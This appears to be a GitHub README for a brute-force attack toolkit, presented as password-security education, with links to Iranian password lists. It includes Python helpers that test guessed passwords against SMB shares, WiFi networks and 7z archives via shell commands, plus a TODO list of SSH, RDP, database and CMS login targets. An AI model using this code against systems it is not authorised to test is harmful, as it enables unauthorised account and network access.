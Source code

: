 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Resources](#resources)
- [License](#license)
- [TODO](#todo)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.  

This repository contains a list of commonly used [passwords in Iran](./passwords/commons_iranians.txt). It's designed to help developers and security professionals understand password patterns in the region, improve password policies, and enhance security measures

## Preview

## Sample Code

```python

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0


def connect_to_wifi(ssid, password):
    profile_path = create_wifi_profile(ssid, password)
    add_profile_command = f'netsh wlan add profile filename="{profile_path}"'
    connect_command = f'netsh wlan connect name="{ssid}"'
    os.system(add_profile_command)
    result = os.system(connect_command)
    os.remove(profile_path)
    return result == 0

def connect_to_zip(file, password):
    command = f'7z x "{file}" -p"{password}" -y >nul 2>&1'
    result = os.system(command)
    return result == 0


```


## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi 😍](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## TODO

- [x] **Windows Login Authentication (SMB) Brute-force**  
- [x] **WiFi Network Password Cracking (Brute-force)**  
- [x] **Encrypted Archive (ZIP, RAR, etc.) Password Cracking**  
- [ ] **Email Account Credential Brute-force**  
- [ ] **PDF File Password Recovery (Brute-force)**  
- [x] **SSH Remote Login Brute-force Attack**  
- [ ] **RDP (Remote Desktop Protocol) Credential Brute-force**  
- [ ] **SQL Server Database Login Brute-force**  
- [ ] **MySQL Database Authentication Brute-force**  
- [ ] **Telnet Service Credential Brute-force**  
- [ ] **FTP Server Login Brute-force**  
- [ ] **HTTP/HTTPS Basic Authentication Brute-force**  
- [ ] **LDAP Directory Login Brute-force**  
- [ ] **VNC (Virtual Network Computing) Login Brute-force**  
- [ ] **Oracle Database Credential Brute-force**  
- [ ] **VPN Connection Authentication Brute-force**  
- [ ] **WordPress Admin Panel or Joomla CMS Admin Login Brute-force**
- [ ] TODO for updating TODOs ? 
- [ ] Error ckecking and validation
- [ ] Add GUIs: Graphical User Interface

